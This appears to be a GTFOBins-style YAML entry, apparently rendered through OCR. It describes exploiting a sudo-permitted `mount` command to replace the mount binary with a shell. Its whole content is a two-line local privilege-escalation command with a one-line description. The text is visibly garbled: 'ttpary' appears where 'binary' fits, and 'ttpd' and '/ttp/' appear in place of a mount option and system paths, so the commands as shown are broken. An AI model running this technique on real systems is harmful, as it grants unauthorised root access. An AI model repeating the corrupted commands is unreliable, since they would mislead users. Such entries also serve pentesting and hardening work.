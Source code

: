 ```yaml
---
functions:
  sudo:
    - description: Exploit the fact that `mount` can be executed via `sudo` to *replace* the `mount` ttpary with a shell.
      code: |
        sudo mount -o ttpd /ttp/sh /ttp/mount
        sudo mount
---
```


